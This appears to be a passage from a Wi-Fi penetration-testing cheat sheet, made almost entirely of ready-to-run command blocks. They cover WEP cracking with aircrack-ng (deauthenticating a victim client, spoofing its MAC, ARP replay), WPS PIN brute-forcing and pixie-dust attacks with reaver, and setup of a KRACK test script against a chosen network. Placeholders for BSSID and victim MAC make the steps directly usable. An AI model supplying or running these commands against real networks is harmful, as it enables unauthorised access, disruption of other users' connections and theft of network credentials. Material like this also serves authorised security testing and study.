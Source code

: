 ```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon
ifconfig wlan0mon down
macchanger --mac <VictimMac> wlan0mon
ifconfig wlan0mon up
aireplay-ng -3 -b <BSSID> -h <FakedMac> wlan0mon
aireplay-ng --deauth 1 -a <BSSID> -h <FakedMac> wlan0mon
aircrack-ng <PCAP_of_FileName>
```

## <mark style="color:red;">WPA / WPA2 Attacks</mark>

### <mark style="color:orange;">WPS Attack</mark>

```
airmon-ng start wlan0
apt-get install reaver
wash -i wlan0mon -C
reaver -i wlan0mon -b <BSSID> -vv -S
#or, Specific attack
reaver -i -c <Channel> -b <BSSID> -p <PinCode> -vv -S
```

```
# Crack a WPS PIN:
reaver -vv --pixie-dust -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF

# Crack a WPS PIN with some delay between attempts:
reaver -vv --pixie-dust -N -L -d 5 -r 3:15 -T 0.5 -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

### <mark style="color:orange;">KRACK Attack</mark>

{% embed url="https://github.com/NoahhhRyan/krackattacks-test" %}

{% embed url="https://rootsaid.com/krack-test" %}

```
apt-get update apt-get install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
git clone https://github.com/NoahhhRyan/krackattacks-test.git
cd krackattacks-test-research cd krackattacks
chmod 777 krack-ft-test.py
chmod 777 disable-hwcrypto.sh
./disable-hwcrypto.sh
python krack-ft-test.py

# Set the network.conf file, in the directory, 
# you need to change the “testnet” in it to the wifi name you
#  want to attack, the password is arbitrary, and it is saved in
# the suite directory

sudo wpa_supplicant -D nl80211 -i wlan0 -c network.conf
```
